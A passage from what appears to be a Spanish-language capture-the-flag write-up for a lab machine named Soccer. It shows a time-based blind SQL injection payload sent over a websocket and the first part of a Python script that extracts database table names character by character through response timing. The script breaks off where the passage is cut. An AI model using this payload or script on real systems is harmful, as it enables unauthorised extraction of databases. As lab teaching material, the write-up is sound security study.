 Esperado un tiempo, obtenemos las siguientes bases de datos:

```bash
python3 tables.py
[∧] databases: : mysql,information_schema,performance_schema,sys,soccer_db
```

* mysql
* information_schema
* performance_schema
* sys
* soccer_db

Las 4 primeras suelen ser bases de datos por defecto de MySQL, por lo que no son relevantes. Por lo tanto, nos centraremos en ***soccer_db***.

#### Tablas de la base de datos *soccer_db*

Para listar las **tablas** de *soccer_db*, utilizaremos el siguiente payload:

```python
"{"id":"1 or if(substr((select group_concat(table_name) from information_schema.tables where table_schema='soccer_db'),{position},1)=\'{letter}\',sleep(2),1)}"
```

El ***script*** es el siguiente:

```python
import asyncio
import websockets
import signal,sys,string,time
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+C 
signal.signal(signal.SIGINT,def_handler)

#Variables globales
letters = string.ascii_lowercase + string.punctuation
burp = {'http':'http://127.0.0.1:8080'}
tables = ""
let = ""

async def send_request(request):
    async with websockets.connect('ws://soc-player.soccer.htb:9091/') as websocket:
        await websocket.send(request)
        inicio = time.time()
        response = await websocket.recv()
        fin = time.time()
        response = False
        if fin - inicio >= 2:
            response = True
            global tables
            global let
            tables += let
            p2.status(tables)
        return response

def peticion(request):
    response= asyncio.get_event_loop().run_until_complete(send_request(request))
    return response

if __name__ == "__main__":

    p1 = log.progress("SQLI")
```